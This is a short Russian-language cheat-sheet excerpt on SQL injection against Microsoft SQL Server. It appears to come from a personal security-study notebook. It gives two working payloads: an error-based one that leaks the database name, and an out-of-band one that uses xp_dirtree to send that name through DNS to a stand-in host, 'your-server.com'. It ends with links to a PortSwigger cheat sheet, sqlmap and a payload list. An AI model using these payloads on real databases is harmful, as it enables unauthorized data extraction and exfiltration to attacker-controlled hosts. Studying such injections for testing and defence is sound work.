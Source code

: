 - **Вывод конф. данных с ошибкой:**
```
' AND 1=CAST((SELECT DB_NAME()) AS int) --
```

- **Пингуем сервер наш:**
```
'; DECLARE @p varchar(1024); SET @p=(SELECT DB_NAME()); EXEC('master..xp_dirtree "\\'+@p+'.your-server.com\test"') --
```




# 3. Дополнение

- [Шпаргалка по инъекциям на portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [[Инструмент sqlmap]]
- [Список payloads с гитхаб](https://github.com/payloadbox/sql-injection-payload-list)